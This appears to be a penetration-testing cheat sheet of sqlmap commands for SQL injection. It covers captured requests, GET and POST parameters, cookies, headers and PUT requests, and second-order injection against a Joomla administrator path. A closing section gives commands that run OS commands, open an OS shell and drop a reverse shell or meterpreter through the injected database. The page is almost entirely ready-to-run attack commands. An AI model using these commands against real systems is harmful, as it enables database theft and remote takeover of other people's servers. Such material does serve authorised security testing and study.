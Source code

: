 # Injection place

## From Burp/ZAP capture

Capture the request and create a req.txt file

```bash
sqlmap -r req.txt --current-user
```

## GET Request Injection

```bash
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```

## POST Request Injection

```bash
sqlmap -u "http://example.com" --data "username=*&password=*"
```

## Injections in Headers and other HTTP Methods

```bash
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```

## Second order injection

```bash
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

## Shell

```bash
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```
